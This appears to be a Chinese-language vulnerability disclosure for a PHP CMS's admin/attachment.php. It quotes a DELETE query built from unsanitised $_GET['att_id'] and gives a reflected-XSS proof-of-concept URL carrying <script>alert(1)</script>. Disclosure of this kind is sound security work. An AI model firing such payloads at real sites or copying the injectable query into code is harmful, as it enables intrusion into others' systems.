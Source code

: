 首先在admin目录下面可以看见attachment.php里面加载了很多功能，我们发现del功能以$_REQUEST函数来指定变量act=del
![1](https://github.com/ysl1415926/cve/assets/138963581/9782bd47-91d3-44b8-aace-6740ffb7c20a)
![2](https://github.com/ysl1415926/cve/assets/138963581/de1ff1ab-497e-4216-aa35-a2af91daa13b)

` elseif($_REQUEST['act'] == 'del')
 {
 	$sql = "DELETE FROM ".table('attachment')." WHERE att_id = ".$_GET['att_id'];
 	if(!$db->query($sql)){
 		showmsg('删除附加属性出错', true);
 	}
 	showmsg('删除附加属性成功','attachment.php', true);
 }`

然后在下面代码中看见一个sql语句以GET方式传递了一个att_id参数

![3](https://github.com/ysl1415926/cve/assets/138963581/7ba28355-00d6-412e-ac11-b03486d0a7c8)


`$sql = "DELETE FROM ".table('attachment')." WHERE att_id = ".$_GET['att_id'];`

当时本来是测试sql注入，但是他下面一行会打印出出错信息

![4](https://github.com/ysl1415926/cve/assets/138963581/b4b79073-de8f-41d9-b42d-58bcf171f1cd)


这样我们就可以利用错误参数实现XSS攻击

![5](https://github.com/ysl1415926/cve/assets/138963581/999237dd-4d5f-42aa-af8c-7220c232c3e0)


`if(!$db->query($sql)){
 		showmsg('删除附加属性出错', true);
 	}
 	showmsg('删除附加属性成功','attachment.php', true);`

在本地搭建后，测试成功
poc：/admin/attachment.php?act=del&att_id=<script>alert(1)</script>

![6](https://github.com/ysl1415926/cve/assets/138963581/3283a4d5-8562-4db1-bedf-1b4989270033)
